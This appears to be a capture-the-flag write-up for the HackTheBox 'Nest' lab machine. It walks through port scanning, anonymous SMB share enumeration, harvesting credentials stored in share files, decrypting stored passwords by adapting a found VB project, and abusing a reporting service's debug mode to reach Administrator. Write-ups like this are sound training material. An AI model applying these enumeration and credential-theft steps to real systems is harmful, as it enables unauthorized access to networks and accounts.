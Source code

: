 # Nest

**Date:** 30/09/2024

## Enumeration

I performed a full port scan on the target:

```bash
nmap -p- $(cat target) -v -oN full_scan
```

**Open Ports:**
```
PORT     STATE SERVICE
445/tcp  open  microsoft-ds
4386/tcp open  unknown
```

After a detailed scan, I found additional information about the services:

```
PORT     STATE SERVICE       VERSION
445/tcp  open  microsoft-ds?
4386/tcp open  unknown
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NULL, RPCCheck, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, X11Probe: 
|     Reporting Service V1.2
|   FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, RTSPRequest, SIPOptions: 
|     Reporting Service V1.2
|     Unrecognised command
|   Help: 
|     Reporting Service V1.2
|     This service allows users to run queries against databases using the legacy HQK format
|     AVAILABLE COMMANDS ---
|     LIST
|     SETDIR <Directory_Name>
|     RUNQUERY <Query_ID>
|     DEBUG <Password>
|_    HELP <Command>
```

### SMB Service (Port 445)

I enumerated the SMB shares without authentication:

```bash
smbclient -L=$(cat target) -N
```

**Shares Found:**
```
Sharename       Type      Comment
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
Data            Disk      
IPC$            IPC       Remote IPC
Secure$         Disk      
Users           Disk      
```

I could access the `Data`, `Secure$` and `Users` shares without a password. Inside the `Users` share, I found multiple user directories:

```
Administrator, C.Smith, L.Frost, R.Thompson, TempUser
```

In the `Shared\Templates\HR\` folder, I discovered the following TempUser credentials:

```
Username: TempUser
Password: welcome2019
```

### SMB Exploration (TempUser Credentials)

Using the TempUser credentials, against the `Data` share, I gained more access and found an encrypted password in the `IT\Configs\RU Scanner\` directory:

```xml
<Username>c.smith</Username>
<Password>fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=</Password>
```

In the `IT\Configs\NotepadPlusPlus\config.xml` file I also found an interesting share file:

```xml
<History nbMaxFile="15" inSubMenu="no" customLength="-1">
    <File filename="C:\windows\System32\drivers\etc\hosts" />
    <File filename="\\HTB-NEST\Secure$\IT\Carl\Temp.txt" />
    <File filename="C:\Users\C.Smith\Desktop\todo.txt" />
</History>
```

I look throw the `\\HTB-NEST\Secure$\IT\Carl\` folder and I located a VB project in `\IT\Carl\VB Projects\WIP\RU\`. After downloading and analyzing it, I decrypted C.Smith's password: `xRxRxPANCAK3SxRxRx`.

![Screenshot 2024-10-02 154620](https://github.com/user-attachments/assets/572e3e9e-4994-49b8-a61b-0e2c11b87aef)


### Privilege Escalation (C.Smith Credentials)

With C.Smith's credentials, I accessed his user folder and found the `user.txt` flag. I also discovered the `HQK_Config_Backup.xml` file, which indicated that the Reporting Service on port 4386 was related to LDAP.

Using `allinfo` on the file `Debug Mode Password.txt`, I uncovered an Alternate Data Stream (ADS) that contained the password: `WBQ201953D8w`.

### Exploiting HQK Reporting Service (Port 4386)

I connected via Telnet to port 4386:

```bash
telnet $(cat target) 4386
```

Using the `DEBUG` command and the password from the ADS, I enabled debug mode. I explored the directories and found the Administrator's encrypted password:

```
└─# telnet $(cat target) 4386
Trying 10.10.10.178...
Connected to 10.10.10.178.
Escape character is '^]'.

HQK Reporting Service V1.2

>DEBUG WBQ201953D8w                                                         

Debug mode enabled. Use the HELP command to view additional commands that are now available
>LIST

Use the query ID numbers below with the RUNQUERY command and the directory names with the SETDIR command

 QUERY FILES IN CURRENT DIRECTORY

[DIR]  COMPARISONS
[1]   Invoices (Ordered By Customer)
[2]   Products Sold (Ordered By Customer)
[3]   Products Sold In Last 30 Days

Current Directory: ALL QUERIES
>SETDIR ..

Current directory set to HQK
>LIST

Use the query ID numbers below with the RUNQUERY command and the directory names with the SETDIR command

 QUERY FILES IN CURRENT DIRECTORY

[DIR]  ALL QUERIES
[DIR]  LDAP
[DIR]  Logs
[1]   HqkSvc.exe
[2]   HqkSvc.InstallState
[3]   HQK_Config.xml

Current Directory: HQK
>SETDIR LDAP

Current directory set to LDAP
>LIST

Use the query ID numbers below with the RUNQUERY command and the directory names with the SETDIR command

 QUERY FILES IN CURRENT DIRECTORY

[1]   HqkLdap.exe
[2]   Ldap.conf

Current Directory: LDAP
>SHOWQUERY 2

Domain=nest.local
Port=389
BaseOu=OU=WBQ Users,OU=Production,DC=nest,DC=local
User=Administrator
Password=yyEq0Uvvhq2uQOcWG8peLoeRQehqip/fKdeG/kjEVb4=
```

I try to decrypt the password with RUScanner, but it gave me a Padding error. Looking better over C.Smith folder, there were also an executable, I download it:

```
smb: \C.Smith\HQK Reporting\AD Integration Module\> ls
  .                                   D        0  Fri Aug  9 08:18:42 2019
  ..                                  D        0  Fri Aug  9 08:18:42 2019
  HqkLdap.exe                         A    17408  Wed Aug  7 19:41:16 2019

		5242623 blocks of size 4096. 1839800 blocks available
```

I decompile the executable with iLSpy and I found out other parameters:

![Screenshot 2024-10-03 070300](https://github.com/user-attachments/assets/09824152-9456-4e75-ae61-50687598c855)

After modifying the RUScanner code to adjust the decryption padding, I successfully decrypted the Administrator password: `XtH4nkS4Pl4y1nGX`.

![Screenshot 2024-10-03 070410](https://github.com/user-attachments/assets/47063e3e-5d7b-4c6a-9287-d35db8e1710f)


With this, I accessed the system as Administrator and retrieved the root flag.

---
